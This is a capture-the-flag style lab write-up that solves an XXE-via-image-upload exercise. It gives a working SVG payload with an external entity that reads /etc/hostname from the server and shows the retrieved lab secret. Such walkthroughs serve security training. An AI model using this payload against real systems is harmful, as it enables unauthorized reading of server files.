





### Exploiting XXE via image file upload : PRACTITIONER

---

> Visiting any post and uploading a comment.



> Intercept the `POST` request with BURPSUITE PROXY HTTP history on.



> We can try to change the contet of the file, and change it to an `SVG` file to be able to support XML and add.

> Adding the payload.
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

<text font-size="16" x="0" y="16">&xxe;</text>

</svg>
```

> The first 2 lines are used to instantiate XML.
> We add the entity `xxe` to hold the file contents, and call it using `&xxe;` in the `text` tag.
> The remaining lines are used to create the image and set its size.



> Following the redirections and then going to the comments page, we see that one of the avatars has text.



> Opening the image in a new tab and copying the secret.



```
7198d31ba274
```

> Submitting that completes the lab.

---
